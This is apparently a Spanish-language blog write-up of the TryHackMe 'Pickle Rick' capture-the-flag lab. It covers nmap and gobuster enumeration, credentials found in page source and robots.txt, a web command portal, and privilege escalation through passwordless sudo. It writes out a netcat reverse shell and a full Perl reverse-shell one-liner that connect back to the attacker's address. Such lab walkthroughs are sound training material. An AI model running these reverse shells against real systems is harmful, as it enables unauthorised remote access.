```yaml
---
layout: single
title: Pickle Rickkkk - Try Hack me
excerpt: "Pickle rick, maquina Linux basada en Dirbuster y linux, este es mi primer reto
          CTF, ¡vamos a ver la solución del mismo!"

classes: wide
header:
  teaser: /assets/images/thm-picklerick/1.png
  teaser_home_page: true
  icon: /assets/images/thm.webp
categories:
  - TryHackMe
  - CTF
tags:  
  - Linux
  - CTF
  - Dirbuster
  - Easy
  
---
```


![](/assets/images/thm-picklerick/1.png)

Pickle rick, maquina Linux basada en Dirbuster y linux, este es mi primer reto
CTF, ¡vamos a ver la solución del mismo!

## Fase de enumeración

Vamos a hacer un escaneo de puertos con Nmap. Nmap -sC -ssV 10.10.104.37 -o PortsNmap

Además vamos a ejecutar un escaneo de directorios con Nmap → nmap –script http-enum 10.10.104.37 -Pn

-sC -sV → Usar scripts más comunes y mostrar versiones, -o Guardar escaneo en archivo.

![](/assets/images/thm-picklerick/2.png)

Vemos que tenemos dos puertos abiertos el 80 y el 22 , intuyo que al ser una maquina sencilla y basada en linux y dirbuster no creo que sea necesario probar ssh.

Además Nmap a logrado darnos dos directorios interesantes lo cual refuerza mi intuición anterior.

Ahora vamos hacer uso de la herramienta gobuster para busqueda de directorios, usaremos el comando: gobuster dir -u http://10.10.104.37 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php.html.txt 

-Hacemos uso de la wordlist y filtramos con el comando -x por .php .html y .txt

![](/assets/images/thm-picklerick/3.png)

Parece que gobuster no nos va a facilitar mucha más información, así que voy a cortarlo y vamos directamente a la pagina web.

## Fase de explotación

-Una vez en la web vemos esto:

![](/assets/images/thm-picklerick/4.png)

A simple vista no vemos nada interesante, pero siempre hay que mirar el código fuente y el wappalyzer.

![](/assets/images/thm-picklerick/5.png)

Vemos que en la pagina de inicio tenemos un posible nombre de usuario: R1ckRul3s

Ahora vamos a indagar por los siguientes directorios que conocemos. (robots.txt / login.php / assets)

Recordamos siempre mirar en cada apartado el código fuente y el wappalyzer

En robots.txt Nos encontramos con una posible contraseña. Wubbalubbadubdub

![](/assets/images/thm-picklerick/6.png)

En assets encontramos los archivos de la página.

![](/assets/images/thm-picklerick/7.png)

En el apartado login.php , encontramos un login vamos a probar con las credenciales previamente encontradas: User: R1ckRul3s , Pass: Wubbalubbadubdub 

![](/assets/images/thm-picklerick/8.png)

Y conseguimos acceso a este portal.php

![](/assets/images/thm-picklerick/9.png)

Si hacemos un whoami por ejemplo , vemos que estamos frente a una web shell, podríamos probar a hacer una reverse shell y traernosla directamente a neuestro equipo local, o podriamos empezar a introducir comandos como , ls -lia , whoami , id… Ir buscando entre archivos y directorios cosas interesantes.

![](/assets/images/thm-picklerick/10.png)

Vemos que ya vemos varias cosas interesantes como los .txt , viendo que los tiros van a ir todos por aquí vamos a intentar obtener directamente una reverse shell en nuestro equipo para trabajar con más comodidad. Con el comando ‘whereis’ vamos a comprobar si tiene instalado por ejemplo netcat para obtener una revershell de manera sencilla, En la maquina objetiva introducimos el comando ‘nc -e /bin/sh 10.9.3.248 4444’ y en nuestro equipo nos ponemos en escucha con el comando nc -lvnp 4444 , ejecutamos y vemos que no ganamos acceso, parece que algo esta capado, Vamos a investigar por google y nos encontramos con esta página: Web y ahora probaremos con:
 
``` 
perl -e 'use Socket;$i="10.9.3.248";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

y nosotros estaremos en escucha: nc -lvnp 4444 , conseguimos acceso.

![](/assets/images/thm-picklerick/11.png)

Ahora vamos a ver el contenido de los archivos .txt

![](/assets/images/thm-picklerick/12.png)

Vemos que conseguimos la primera flag y el otro archivo nos indica que busquemos dentro de los archivos del sistema para conseguir los otros ingredientes.

Vamos a probar principalmente a listar los contenidos de / etc / passwd , listar contenidos de /home y /root

![](/assets/images/thm-picklerick/13.png)

Vemos que en / etc / passwd , no encontramos nada interesante , ningun usuario extraño…

Ahora vamos a mirar en los usuarios de /home

![](/assets/images/thm-picklerick/14.png)

Bingo, encontramos el directorio del usuario rick y una vez dentro obtenemos un .txt del segundo ingrediente y conseguimos la segunda flag.

Por último vamos a mirar el directorio /root para ver que encontramos 

![](/assets/images/thm-picklerick/15.png)

Vemos que no nos pide contraseña para usar el super usuario, asi que listamos el contenido y vemos un archivo que aparentemente podría ser nuestra última flag y efectivamente, conseguimos las 3 flags y Rick volvera a ser humano.

![](/assets/images/thm-picklerick/16.png)

